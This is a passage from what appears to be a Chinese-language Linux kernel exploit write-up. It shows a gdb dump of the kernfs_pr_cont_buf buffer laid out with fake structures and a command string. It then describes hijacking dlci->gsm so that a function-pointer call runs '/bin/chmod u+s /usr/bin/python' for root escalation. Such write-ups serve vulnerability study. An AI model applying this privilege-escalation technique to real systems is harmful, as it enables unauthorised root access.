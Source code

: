 布局后查看 kernfs\_pr\_cont\_buf 的值

```bash
(gdb) x/400xg kernfs_pr_cont_buf
0xffffffff8336eac0 <kernfs_pr_cont_buf>:        0x0000000000000000      0x0000000000000000
0xffffffff8336ead0 <kernfs_pr_cont_buf+16>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eae0 <kernfs_pr_cont_buf+32>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eaf0 <kernfs_pr_cont_buf+48>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb00 <kernfs_pr_cont_buf+64>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb10 <kernfs_pr_cont_buf+80>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb20 <kernfs_pr_cont_buf+96>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb30 <kernfs_pr_cont_buf+112>:    0x642f630062006100      0x4343434343434343
0xffffffff8336eb40 <kernfs_pr_cont_buf+128>:    0x4343434343434343      0x4343434343434343
0xffffffff8336eb50 <kernfs_pr_cont_buf+144>:    0xffffffff81ffaee0      0x0000000000000000
0xffffffff8336eb60 <kernfs_pr_cont_buf+160>:    0x0000000000000000      0x0000000000000000
0xffffffff8336eb70 <kernfs_pr_cont_buf+176>:    0x6200610000000000      0x42424242642f6300
0xffffffff8336eb80 <kernfs_pr_cont_buf+192>:    0x4242424242424242      0xffffffff81ee8080
0xffffffff8336eb90 <kernfs_pr_cont_buf+208>:    0x4242424242424242      0x4242424242424242
0xffffffff8336eba0 <kernfs_pr_cont_buf+224>:    0xffffffff8391c588      0x6e69622f7273752f
0xffffffff8336ebb0 <kernfs_pr_cont_buf+240>:    0x7520646f6d68632f      0x2f7273752f20732b
0xffffffff8336ebc0 <kernfs_pr_cont_buf+256>:    0x687479702f6e6962      0x0000000000336e6f
0xffffffff8336ebd0 <kernfs_pr_cont_buf+272>:    0x0000000000000000      0x0000000000000000
```

然后劫持 dlci->gsm 到 kernfs\_pr\_cont\_buf，控制 dlci->gsm->output(gsm, ...) 函数指针调用为 run\_cmd("/bin/chmod u+s /usr/bin/python") 实现提权

​[![](assets/1706146490-4fc21c123a211ce9811924aacea5f780.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122172723492-1277160919.png)​

## 总结
